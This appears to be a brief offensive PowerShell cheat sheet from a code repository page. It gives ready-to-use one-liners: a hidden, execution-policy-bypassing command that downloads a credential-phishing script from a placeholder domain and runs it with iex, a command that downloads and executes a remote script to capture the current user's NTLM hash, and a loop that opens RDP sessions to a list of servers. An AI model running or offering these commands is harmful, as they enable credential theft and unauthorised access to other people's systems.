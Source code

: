 
Credphish:  
```powershell -ep bypass -WindowStyle hidden -c "Invoke-WebRequest -URI 'https://<domain>.com/phish.ps1'|iex"```

Get NTLM-hash of current user:  
```powershell -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('https://github.com/elnerd/Get-NetNTLM/raw/master/Get-NetNTLM.ps1'); Get-NetNTLM-Hash"```

Iterate over file containg RDP servers:  
gc "your_file.txt" | %{Start-Process mstsc -ArgumentList "/v:$_" -Wait; Start-Sleep -s 1}
